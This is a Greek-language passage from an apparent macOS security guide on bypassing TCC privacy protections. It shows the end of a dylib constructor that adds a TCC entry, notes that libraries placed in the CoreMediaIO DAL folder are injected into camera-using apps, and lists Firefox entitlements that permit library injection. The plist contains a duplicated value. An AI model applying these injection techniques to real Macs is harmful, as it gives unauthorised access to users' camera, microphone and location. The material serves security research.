 ```objectivec
}

__attribute__((constructor)) static void constructor(int argc, const char **argv) {

add_tcc_entry();

NSLog(@"[+] Exploitation finished...");
exit(0);
```
Για περισσότερες πληροφορίες ελέγξτε την [**αρχική αναφορά**](https://wojciechregula.blog/post/play-the-music-and-bypass-tcc-aka-cve-2020-29621/).

### Προσθήκες Επιπέδου Αφαίρεσης Συσκευής (Device Abstraction Layer - DAL)

Οι εφαρμογές συστήματος που ανοίγουν ροή κάμερας μέσω του Core Media I/O (εφαρμογές με **`kTCCServiceCamera`**) φορτώνουν **σε αυτή τη διαδικασία αυτά τα πρόσθετα** που βρίσκονται στο `/Library/CoreMediaIO/Plug-Ins/DAL` (χωρίς περιορισμούς SIP).

Απλά αποθηκεύοντας εκεί ένα βιβλιοθήκη με τον κοινό **constructor** θα λειτουργήσει για τη **ενσωμάτωση κώδικα**.

Πολλές εφαρμογές της Apple ήταν ευάλωτες σε αυτό.

### Firefox

Η εφαρμογή Firefox είχε τα entitlements `com.apple.security.cs.disable-library-validation` και `com.apple.security.cs.allow-dyld-environment-variables`:
```xml
codesign -d --entitlements :- /Applications/Firefox.app
Executable=/Applications/Firefox.app/Contents/MacOS/firefox

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "https://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
<key>com.apple.security.cs.allow-unsigned-executable-memory</key>
<true/>
<key>com.apple.security.cs.disable-library-validation</key>
<true/>
<key>com.apple.security.cs.allow-dyld-environment-variables</key><true/>
<true/>
<key>com.apple.security.device.audio-input</key>
<true/>
<key>com.apple.security.device.camera</key>
<true/>
<key>com.apple.security.personal-information.location</key>
<true/>
<key>com.apple.security.smartcard</key>
<true/>
</dict>
</plist>
```
Για περισσότερες πληροφορίες σχετικά με το πώς να εκμεταλλευτείτε εύκολα αυτό, [**ελέγξτε την αρχική αναφορά**](https://wojciechregula.blog/post/how-to-rob-a-firefox/).
